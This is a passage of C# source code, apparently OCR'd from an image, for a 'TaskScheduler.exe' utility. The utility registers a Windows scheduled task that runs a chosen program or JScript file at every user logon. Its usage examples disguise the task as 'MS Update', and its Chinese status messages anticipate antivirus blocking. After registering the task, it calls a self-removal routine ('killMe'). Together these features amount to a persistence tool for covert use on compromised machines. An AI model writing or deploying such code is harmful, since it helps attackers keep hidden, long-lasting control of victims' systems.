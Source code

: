 ```
                                Console.WriteLine("删除失败，退出线程。");
                            }
                            else
                            {
                                Console.WriteLine("删除成功，正在添加...");
                                CreateTask(path, taskname, parameter);
                                Console.WriteLine("添加完毕，正在验证是否存在...");
                                if (GetExists(taskname))
                                {
                                    Console.WriteLine("验证成功，退出线程。");
                                }
                                else
                                {
                                    Console.WriteLine("验证失败，可能被杀毒拦截，退出线程。");
                                }
                            }
                        }
                        killMe();
                    }
                    else
                    {
                        Console.Write("文件不存在或路径不合法，退出线程。");
                    }
                }
                else
                {
                    Console.WriteLine("[*]Usage: TaskScheduler.exe --path=\"Executable File\" --arg=\"Arguments\"(Optional) --taskname=\"TaskScheduler name\"");
                    Console.WriteLine("[*]Usage: TaskScheduler.exe --path=\"cscript.exe\" --arg=\"/E:Jscript 123.js\" --taskname=\"MS Update\"");
                    Console.WriteLine("[*]Usage: TaskScheduler.exe --path=\"file.exe\" --taskname=\"MS Update\"");
                }
            }
            else
            {
                Console.WriteLine("[*]Usage: TaskScheduler.exe --path=\"Executable File\" --arg=\"Arguments\"(Optional) --taskname=\"TaskScheduler name\"");
                Console.WriteLine("[*]Usage: TaskScheduler.exe --path=\"cscript.exe\" --arg=\"/E:Jscript 123.js\" --taskname=\"MS Update\"");
                Console.WriteLine("[*]Usage: TaskScheduler.exe --path=\"file.exe\" --taskname=\"MS Update\"");
            }
        }
        static bool GetExists(string taskName)
        {
            var exists = false;
            TaskService ts = new TaskService();
            TaskCollection tc = ts.RootFolder.GetTasks();
            if (tc.Exists(taskName))
            {
                exists = true;
            }
            return exists;
        }
        static void CreateTask(string Path, string taskName, string arg = "")
        {
            TaskService ts = new TaskService();
            TaskDefinition td = ts.NewTask();
            td.RegistrationInfo.Author = "WDST";
            td.RegistrationInfo.Description = "";
            td.Triggers.Add(new LogonTrigger { });
            td.Actions.Add(new ExecAction(Path, arg, null));
```